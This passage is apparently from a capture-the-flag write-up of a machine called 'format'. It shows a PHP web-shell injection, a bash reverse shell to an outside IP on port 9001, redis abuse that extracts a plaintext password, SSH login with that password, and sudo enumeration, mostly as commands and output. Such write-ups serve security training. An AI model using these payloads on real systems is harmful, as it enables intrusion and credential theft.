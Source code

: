 `id=cos.php&header=<?php echo(shell_exec($_GET['cmd'])); ?>`

Now we can execute a command:

`GET /content/cos.php/cos.php?cmd=id`

```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Now a reverse shell (url-encoded):

`GET /content/cos.php/cos.php?cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.117/9001 0>&1'`

**Done!**

# Shell as www-data

We can become a **pro** user:

`redis-cli -s /var/run/redis/redis.sock`

`HSET test pro "true"`

**Enumerating more:**

`keys *`

```
1) "PHPREDIS_SESSION:21f8mbj2edv01rl0d4fqb6faa7"
2) "test"
3) "cooper.dooper:sites"
4) "test:sites"
5) "cooper.dooper"
```

`HGET cooper.dooper password`

```
zooperdoopercooper
```

# SSH - cooper

**cooper:zooperdoopercooper** works for SSH!

`user.txt: <redacted>`

#

LinPeas output inside [scan.out](scan.out).

`sudo -l`

```
Matching Defaults entries for cooper on format:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User cooper may run the following commands on format:
    (root) /usr/bin/license
```
